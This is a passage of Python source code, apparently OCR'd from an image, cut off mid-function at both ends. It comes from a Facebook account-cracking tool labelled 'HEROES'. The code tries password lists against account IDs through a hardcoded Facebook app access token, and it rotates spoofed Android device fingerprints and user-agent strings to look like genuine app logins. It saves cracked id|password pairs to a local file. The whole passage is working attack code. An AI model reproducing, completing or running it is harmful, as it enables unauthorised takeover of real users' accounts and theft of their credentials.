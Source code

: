                                                 print('\r\r\x1b[1;31m [HEROES-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/HEROES-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/HEROES-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                        continue
                loop+=1
        except Exception as e:
                pass
def api1(ids,names,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [HEROES] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])
                        ua  = "[FBAN/FB4A;FBAV/"+str(random.randint(11,77))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(11,77)) +";FBBV/"+str(random.randint(1111111,7777777))+";[FBAN/FB4A;FBAV/;FBBV/;[FBAN/FB4A;FBAV/61.0.0.15.69;FBBV/20748104;FBDM({density=1.0,width=600,height=976};FBLC/es_LA;FBCR/MOVISTAR;FBMF/Rockchip;FBBD/K5-3G;FBPN/com.facebook.katana;FBDV/K5-3G;FBSV/5.1.1;nullFBCA/x86:armeabi-v7a;]"
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sm=['GT-', 'SM-']
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid':adid,
                                'format':'json',